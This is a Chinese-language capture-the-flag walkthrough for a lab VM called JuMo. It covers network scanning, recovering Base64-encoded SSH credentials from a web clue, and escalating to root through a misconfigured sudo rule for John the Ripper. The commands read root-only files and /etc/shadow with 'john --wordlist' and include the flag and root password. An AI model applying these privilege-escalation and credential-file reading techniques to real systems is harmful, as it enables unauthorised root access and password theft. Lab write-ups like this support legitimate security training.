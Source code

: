 # 1. 简介

- 靶机名称: JuMo (未发布，内部测试靶机，可能后续发布于 HackMyVm)
- 难度: 低 (Low)
- 目标 IP: 192.168.205.182 (通过 arp-scan 发现)
- 攻击机 IP: 192.168.205.128
- 目标: 获取目标系统的 root 权限并找到 flag。

# 2. 信息收集 (Enumeration)

## 2.1. 主机发现

首先，使用 arp-scan 在本地网络中发现目标主机的 IP 地址。

```bash
┌──(kali㉿kali)-[~/test]
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:64:60:b9, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
# ... (其他输出) ...
192.168.205.182 08:00:27:ff:bf:ce       PCS Systemtechnik GmbH #<-- 目标主机
# ... (其他输出) ...
Ending arp-scan 1.10.0: 256 hosts scanned in 2.033 seconds (125.92 hosts/sec). 4 responded
```

确认目标 IP 为 192.168.205.182。

## 2.2. 端口扫描

使用 nmap 对目标主机进行全端口扫描，以识别开放的服务。

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -p- 192.168.205.182
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 08:46 CST
Nmap scan report for 192.168.205.182
Host is up (0.00022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh     #<-- SSH 服务开放
80/tcp open  http    #<-- HTTP 服务开放
MAC Address: 08:00:27:FF:BF:CE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

扫描结果显示目标开放了 22 (SSH) 和 80 (HTTP) 端口。

# 3. 获取初始访问权限 (Initial Foothold)

## 3.1. Web 服务探测

访问目标主机的 80 端口（ http://192.168.205.182 ）。

![image-20250411084817446](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250411084824566.png)

这个提示我们在 hackmyvm 平台上查找一个名为 check 的用户。

## 3.2. 信息挖掘

在 HackMyVm 网站上搜索用户 check。

![image-20250411085044849](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250411085044939.png)

找到了该用户的个人资料，其中包含一个外部链接。访问该链接：

![image-20250411085314126](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250411085314150.png)

页面上有一串 Base64 编码的字符串 d2VsY29tZTpqdW1v。对其进行解码：

```bash
┌──(kali㉿kali)-[~/test]
└─$ echo 'd2VsY29tZTpqdW1v' | base64 -d
welcome:jumo
```

解码后得到 welcome:jumo，这很可能是一对 SSH 登录凭据（用户名:密码）。

## 3.3. SSH 登录

使用获取到的凭据尝试 SSH 登录：

```bash
┌──(kali㉿kali)-[~/test]
└─$ ssh welcome@192.168.205.182
# ...(SSH 连接确认)...
Password: # 输入密码 jumo
Linux JuMo 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
# ... (欢迎信息) ...
welcome@JuMo:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功以 welcome 用户身份登录系统。

# 4. 权限提升 (Privilege Escalation)

## 4.1. Sudo 权限检查

检查 welcome 用户拥有的 sudo 权限：

```bash
welcome@JuMo:~$ sudo -l
Matching Defaults entries for welcome on JuMo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on JuMo:
    (ALL : ALL) NOPASSWD: /usr/sbin/john   #<-- 可以免密以 root 权限执行 john
```

输出显示 welcome 用户可以无需密码 (NOPASSWD) 以任何用户 (ALL:ALL) 的身份执行 /usr/sbin/john 命令。john (John the Ripper) 是一个密码破解工具。

## 4.2. 利用 Sudo 权限

由于可以以 root 身份执行 john，并且 /root 目录下的文件通常只有 root 用户可读，我们可以尝试利用 john 读取 /root 目录下的文件。

### 方法一：直接读取可能的 Flag 文件 (我的方法)

已知 /root/root.txt 包含了 flag。虽然 john 的 --wordlist 选项通常用于指定密码字典，但配合 --stdout 选项，john 会将 wordlist 的内容（或生成的候选密码）打印到标准输出。利用 sudo 权限，这可以用来读取 root 权限才能访问的文件内容。

```bash
welcome@JuMo:~$ sudo /usr/sbin/john --wordlist=/root/root.txt --stdout
Press 'q' or Ctrl-C to abort, almost any other key for status
flag{521ca933d6e159a50c2c04e7daa930f6}  #<-- 读取并输出了 /root/root.txt 的内容
1p 0:00:00:00 100% 100.0p/s flag{521ca933d6e159a50c2c04e7daa930f6}
```

此命令成功读取了 /root/root.txt 文件，内容即为 flag。

### 方法二：读取可能的 Flag 文件 (ta0神的方法)

```bash
welcome@JuMo:~$ sudo /usr/sbin/john /etc/shadow --wordlist=/root/root.txt
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 100% 0g/s 100.0p/s 200.0c/s 200.0C/s flag{521ca933d6e159a50c2c04e7daa930f6} 
Session completed
```

## 4.3. 获取 Root 权限

根据群主提示我们可知root密码为root flag

```bash
welcome@JuMo:~$ su -
Password: # 输入 521ca933d6e159a50c2c04e7daa930f6
root@JuMo:~# id
uid=0(root) gid=0(root) groups=0(root)
root@JuMo:~# cat /root/root.txt
flag{521ca933d6e159a50c2c04e7daa930f6}
```

成功获取 root 权限。最终的 flag 存储在 /root/root.txt 中。

# 5. 总结

本次渗透测试通过以下步骤完成：

1. 信息收集: 使用 arp-scan 和 nmap 发现目标主机及其开放的 SSH 和 HTTP 服务。
2. 初始访问: 分析网页源代码，发现指向 HackMyVm 用户 check 的线索，进而找到其外部链接中的 Base64 编码凭据，成功通过 SSH 登录 welcome 用户。
3. 权限提升: 发现 welcome 用户可通过 sudo 免密执行 john 命令。利用此权限，通过 john --wordlist=/root/root.txt --stdout 直接读取了 /root/root.txt 中的 flag，或者通过 john /etc/shadow --wordlist=/root/root.txt 破解出 root 密码（密码恰好是 flag），最终使用 su 命令切换到 root 用户。

靶机设计巧妙，利用了信息泄露和 sudo 配置不当的漏洞，难度符合 Low 级别。